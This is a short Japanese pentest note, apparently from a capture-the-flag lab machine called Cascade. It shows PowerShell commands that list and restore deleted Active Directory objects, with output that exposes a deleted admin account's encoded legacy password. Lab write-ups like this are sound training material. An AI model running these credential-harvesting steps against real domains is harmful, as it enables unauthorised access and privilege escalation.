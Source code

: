 c.f.)
- [hacking deram](https://www.hackingdream.net/2021/04/active-directory-penetration-testing-cheatsheet.html)
- [offsec journey](https://notes.offsec-journey.com/active-directory/domain-privilege-escalation)
- [MS official](https://docs.microsoft.com/en-us/powershell/module/activedirectory/restore-adobject?view=windowsserver2022-ps)

### Hack tricksのコマンド：

``` powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```



``` powershell
PS> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
...
Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059 
...
```

見つかったdeleted userのパスワードを抽出できるかもしれないよ：
```
PS> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
                                                                                                                                                 
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
userPrincipalName               : TempAdmin@cascade.local
```

deleted objectを復活させる：

```
PS> Restore-ADObject -Identity 'OBJECT-ID HERE'
```

-> このboxでは**AD Recycle Bin**グループのメンバーだったにも関わらずInsufficient rightsでrestore出来なかった。（結局、見逃してたメールにAdminとTempAdminのパスワードが同じだと書いてあった）

#### Cascadeで改めて実感
できる人との違いは**enum力**だ！とにかくできる人はenum力がパナイ。今回もメールを見逃さず、現在のAdminのパスワードとTempAdminのパスワードが同じことを見逃さなかった。
